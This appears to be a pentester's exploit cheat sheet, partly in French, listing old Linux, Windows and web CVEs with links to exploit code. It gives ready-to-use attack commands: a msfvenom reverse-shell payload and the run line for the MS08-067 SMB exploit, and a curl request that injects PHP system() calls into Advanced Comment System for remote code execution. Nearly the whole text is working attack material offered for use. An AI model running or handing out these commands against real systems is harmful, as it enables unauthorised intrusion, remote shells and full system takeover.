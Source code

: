 # CVE

## Linux

#### CVE-2009-2698 (Linux Kernel < 2.6.19 (x86/x64) - 'udp\_sendmsg') - LPE - ROOT

```
https://github.com/xiaoxiaoleo/CVE-2009-2698 #Binaire
https://github.com/pythonmaster41/Go-For-OSCP/blob/master/Exploits/9545.c #Versions vulnérables
```

## Windows

#### MS08-067 (SMB) - RCE - SYSTEM

```
https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/Python3-MS08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86
python3 Python3-MS08-067.py <IP> 1 445 #Changer l'OS cible en modifiant le '1'
```

## WEB

#### CVE-2009-4623 (Advanced Comment System 1.0) - RCE

```
curl -s --data "<?system('<CMD');?>" 'http://<IP>/internal/advanced_comment_system/admin.php?ACS_path=php://input%00'
```
